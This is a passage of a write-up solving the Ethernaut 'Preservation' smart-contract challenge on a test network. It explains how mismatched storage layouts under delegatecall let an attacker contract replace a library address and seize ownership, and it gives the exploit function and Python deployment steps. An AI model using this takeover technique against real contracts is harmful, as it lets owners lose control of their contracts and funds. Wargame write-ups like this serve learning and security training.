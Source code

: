 * A function where `setFirstTime()` is called in Preservation in order to make `timeZone1Library` the attacker contract. If each LibraryContract was _correctly coded_ with an identical layout to Preservation, the Preservation contract wouldn't be vulnerable in this way.

```js
function setFirstTimeExploit() external {
    preservationContract.setFirstTime(uint256(address(this)));
}
```

Where `preservationContract` is an interface to the Preservation contract.

Therefore the flow is as follows:

1. Make `timeZone1Library` the attacker contract address by calling `setFirstTime()` from the attacker contract.

2. Call `setFirstTime()` in the Preservation contract with any unsigned integer as parameter, which executes `setTime()` in the attacker contract making `owner` our origin address.

### How I did it

1. Code and deploy (at: `0x5E51EE439b501d7e39261Df8C437dA19a28F651D`) the attacker contract as described in [solution](#solution-14)

```python
pattack = PreservationAttack.deploy(preservation.address, _from)
```

2. Call `setFirstTime()` from the attacker contract

```python
pattack.setFirstTimeExploit(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xecb25cbd88e8581ed18dcff2dde1de2eae3e4b52632aa6f6caeafda07f38d943

3. Call `setFirstTime()` from the address I want to make `owner` (my address, in this case, `tx.origin`), though I could have also manually hardcoded the address in the attacker contract.

```python
preservation.setFirstTime(0, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x100300c698f668e8c3d50a439cfd57cfe7f363b7fee1986babaff39aaa2a790a

4. Check that my address is owner

```python
owner_assertion = preservation.owner() == acc.address
print(f"My address is the contract owner {owner_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x103ddeb1d690d372de65f1ceef96628dd0ea60776cc5cc4ddb5adea323dc4cc3

